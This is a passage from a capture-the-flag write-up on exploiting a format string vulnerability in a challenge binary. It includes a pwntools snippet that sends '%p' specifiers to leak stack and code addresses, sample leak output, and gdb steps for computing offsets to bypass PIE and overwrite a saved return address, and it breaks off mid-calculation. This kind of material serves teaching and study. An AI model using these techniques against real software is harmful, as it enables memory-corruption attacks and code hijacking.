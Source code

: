 ```c
  else {
    if (user_input[0] == '2') {
      lose4();
    }
  }
  return;
}
```

This function looks very similar to the previous function.
Its also not possible to overflow the user buffer, but there is also a format string vulnerability.
We will use it to overwrite the return address with the help of the addresses, which were leaked by the previous format string vulnerability.

The plan is to leak addresses with the first format string vulnerability. With the leaked addresses, we can overwrite some return address with the address of the *win* function to get the flag.

## Exploitation
The first step is to leak some addresses from the stack, and check if we find some useful values.
```python
#attach debugger
adb.attach(p)
#recv text from binary until its expects user input
p.recvuntil("out.\n")
#send 1 (to enter the close_border function afterwards) follow by format strings %p to print pointers
p.sendline("1"+"%p."*14)
#receive leaked data
leak = p.recvuntil("\n")
#print leaked data
print("leak is: "+leak)
```

The leak looks something like this:
```
leak is:You chose: 10x736f686320756f59.(nil).(nil).0x7ffe2f894c70.0xb.0x252e70252e702531.0x2e70252e70252e70.0x70252e70252e7025.0x252e70252e70252e.0x2e70252e70252e70.0xa2e7025.0x55f6d7821490.0x55f6d7821080.0x7ffe2f894cc0.
```
When running *vmmap* in the debugger, we note that the addresses beginning with 0x7ffe2f89???? are stack or libc addresses, whereas addresses starting the 0x55f6d7821??? are addresses from the .text section, meaning the actual code of the binary.

The leak provides us with a reference address of the stack, and a reference address of the .text section.
We will use both addresses to circumvent **PIE**.
With both reference addresses, and some offset, we can calculate the actual address of the win function, and an address of a *saved rip* register.

### Calculating Offsets

In the debugger, we print the address of the win function (`p win` in gdb), which is: `0x55f6d7821165`.
After setting a breakpoint in the *close_borders* function (`b close_borders` in gdb), we can examine where it return address is located (`info frame` or for short `i f` in gdb).
This gets us: `0x7ffe2f894c68`.
